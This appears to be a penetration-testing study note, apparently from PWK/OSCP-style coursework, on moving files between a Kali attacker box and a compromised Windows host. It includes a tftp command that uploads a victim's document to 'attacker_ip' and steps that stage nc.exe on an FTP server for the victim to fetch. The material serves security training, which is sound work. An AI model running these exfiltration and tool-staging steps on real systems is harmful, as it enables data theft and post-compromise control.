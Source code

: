 Setup:  
	On Kali:  
1. Install and configure a TFTP server in Kali and create a directory to store and serve files.  
```bash
sudo apt update && sudo apt install atftp
```


2. Next, we update the ownership of the directory so we can write files to it.  
```bash
sudo mkdir /tftp  
sudo chown nobody: /tftp
```

3. We will run atftpd as a daemon on UDP port 69 and direct it to use the newly created **/tftp** directory  
```bash
sudo atftpd --daemon --port 69 /tftp
```

On Windows:  
1. Run the **tftp** client  
```powershell
tftp -i attacker_ip put important.docx
```
.
- **-i** - Specify binary image transer  
- **put** - Initiates an upload

### Apache 2

```bash
sudo systemctl start apache2
```

web root is located /var/www/html/


### Windows-based file transfers:

#### Non-Interactive FTP:  
  
Windows ships w/ a default [FTP](OS%20Commands.md#ftp) client that can be used for file transfers.  
FTP, however, is an interactive program requiring user input.  

 
Ex: Compromised Win victim connecting to FTP server on Attack/ C2 to download needed binary.  
  
	We'll set up FTP server on kali containing **nc** binary that's needed on Windows victim machine.  
  
  
1. Use setup of FTP server for [Non-Interactive Shell demo](PWK--Concepts--Non-Interactive_Shell.html)  
2. Place a copy of nc.exe in the FTP home directory  
```bash
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/  
sudo systemctl restart pure-ftpd
```
